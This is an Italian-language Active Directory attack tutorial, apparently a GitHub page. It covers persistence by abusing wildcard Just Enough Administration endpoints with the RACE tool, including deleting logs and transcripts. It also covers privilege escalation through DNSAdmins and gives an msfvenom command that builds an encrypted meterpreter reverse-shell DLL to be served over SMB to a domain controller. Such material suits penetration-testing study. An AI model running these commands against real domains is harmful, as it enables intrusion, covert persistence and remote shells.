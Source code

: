 Successivamente, il file di configurazione deve essere registrato: **Register-PSSessionConfiguration -Path [FILE].pssc -Name [NAME] Force**  
![image](https://user-images.githubusercontent.com/110602224/200607768-f54d4980-b599-47ea-91db-598bba3dba9e.png)

**Abusing Just Enough Administration (JEA)**  
Nei file di configurazione JEA è ammesso l'uso del carattere "\*" come wildcard, introducendo un elemnto di rischio in quanto concedere un comando come "Start-\*" rende disponibile una serie di comandi che iniziano appunto con "Start-\*".  
Hacker con accesso amminisratore su una macchina possono creare endpoint JEA estendo l'uso di comandi a utenti compromessi riuscendo anche ad eliminare successivamente i log e le trascrizioni. Usare account standard, quindi potenzialmente poco controllati, ma con accesso libero a privilegi elevati è un modo per rimanere al di sotto dei radar (persistence).  

Il tool [RACE](https://github.com/samratashok/RACE) permette di automatizzare la permanenza (persistence) via JEA: **Set-JEAPermissions -ComputerName [TARGET] -SamAccountName [USER] -Verbose**  
Connessione al computer target: **Enter-PSSession -ComputerName [TARGET] -ConfigurationName microsoft.powershell64**  


16. **DNSAdmins**  
Rendere il Domain Controller anche il Server DNS per integrazione tra i servizi ha come controindicazione quella di aumentare la superficie di attacco sullo stesso DC esponendo il protocollo DNS e il protocollo di gestione (basato su RPC) a ogni utente autenticato al dominio.  

Su [RPC](https://learn.microsoft.com/en-us/windows/win32/rpc/rpc-start-page) funziona il Protocollo di Gestione del Server DNS (UUID=50ABC2A4-574D-40B3-9D66-EE4FD5FBA076). Questo protocollo può anche funzionare su TCP o [Named Pipes](https://learn.microsoft.com/en-us/windows/win32/ipc/named-pipes) (\PIPE\DNSSERVER).  
All'interfaccia di gestione si può accedere avviando _dnsmgmt.msc_ e connettersi al Domain Controller o al Server DNS nel caso che non sia in esecuzione la configurazione standard, ovvero DNS integrato in Active Directory.  

Le zonde DNS, lookups caching, forwarding e logging possono essere configurati dall'interfaccia di gestione.  
![image](https://user-images.githubusercontent.com/110602224/200671620-05fcf06e-95b5-42bb-9057-cf58f40ed92c.png)

![image](https://user-images.githubusercontent.com/110602224/200672199-0b059060-4250-46e4-bd59-98b2d4b7e7d4.png)

**Privilege Escalation using DNSAdmins**  
Il permesso di Write Access sul server DNS è concesso di default a _DnsAdmins,Domain Admins, Enterprise Domain Controllers, Enterprise Admins, Administrators_.  

Link: https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a
![image](https://user-images.githubusercontent.com/110602224/200673788-6069f81d-5b12-4791-a194-0b69738f911c.png)

In una macchina con in uso un utente parte del gruppo DNSAdmins in grado di installare ruoli o feature si installa il tool _dnscmd.exe_.  
![image](https://user-images.githubusercontent.com/110602224/200674871-2de22750-38a9-4271-bc2c-20b31030295b.png)

È anche possibile una semplice DLL creata usando msfvenom ma questo approccio rischia di generare alert e in generale di essere meno discreto.  
Comando: **msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=[IP] LPORT=[PORT] --smallest -f dll --encrypt rc4 --encrypt-key "[STRINGA DI TESTO]" -o [NOME DLL].dll**  
Usando lo script smbserver.py si rende disponibile in rete la DLL. Assicurarsi che nel Controller di Dominio sia attivo [Insecure Guest Logons](https://learn.microsoft.com/en-US/troubleshoot/windows-server/networking/guest-access-in-smb2-is-disabled-by-default) altrimenti il servizio smette di funzionare.  
![image](https://user-images.githubusercontent.com/110602224/200790059-737956aa-976b-4464-a034-cd3656223bae.png)
